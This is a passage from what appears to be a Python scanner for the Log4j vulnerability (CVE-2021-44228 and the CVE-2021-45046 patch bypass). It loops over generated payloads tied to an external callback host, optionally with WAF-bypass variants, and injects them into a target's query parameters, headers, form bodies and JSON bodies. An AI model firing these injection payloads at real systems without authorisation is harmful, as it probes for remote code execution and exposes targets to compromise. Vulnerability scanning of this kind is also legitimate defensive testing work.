   ```python
          parsed_url["host"], callback_host, random_string)
      payloads = [payload]
      if args.waf_bypass_payloads:
          payloads.extend(generate_waf_bypass_payloads(
              f'{parsed_url["host"]}.{callback_host}', random_string))
  
      if args.cve_2021_45046:
          cprint(
              f"[•] Scanning for CVE-2021-45046 (Log4j v2.15.0 Patch Bypass - RCE)", "yellow")
          payloads = get_cve_2021_45046_payloads(
              f'{parsed_url["host"]}.{callback_host}', random_string)
  
      for payload in payloads:
          cprint(f"[•] URL: {url} | PAYLOAD: {payload}", "cyan")
  
          if args.request_type.upper() == "GET" or args.run_all_tests:
              try:
                  requests.request(url=url,
                                   method="GET",
                                   params={"v": payload},
                                   headers=get_fuzzing_headers(payload),
                                   verify=False,
                                   timeout=timeout,
                                   allow_redirects=(not args.disable_redirects),
                                   proxies=proxies)
              except Exception as e:
                  cprint(f"EXCEPTION: {e}")
  
          if args.request_type.upper() == "POST" or args.run_all_tests:
              try:
                  # Post body
                  requests.request(url=url,
                                   method="POST",
                                   params={"v": payload},
                                   headers=get_fuzzing_headers(payload),
                                   data=get_fuzzing_post_data(payload),
                                   verify=False,
                                   timeout=timeout,
                                   allow_redirects=(not args.disable_redirects),
                                   proxies=proxies)
              except Exception as e:
                  cprint(f"EXCEPTION: {e}")
  
              try:
                  # JSON body
                  requests.request(url=url,
                                   method="POST",
                                   params={"v": payload},
                                   headers=get_fuzzing_headers(payload),
                                   json=get_fuzzing_post_data(payload),
                                   verify=False,
                                   timeout=timeout,
                                   allow_redirects=(not args.disable_redirects),
                                   proxies=proxies)
              except Exception as e:
                  cprint(f"EXCEPTION: {e}")
  
  
  def main():
      urls = []
      if args.url:
          urls.append(args.url)
      if args.usedlist:
  ```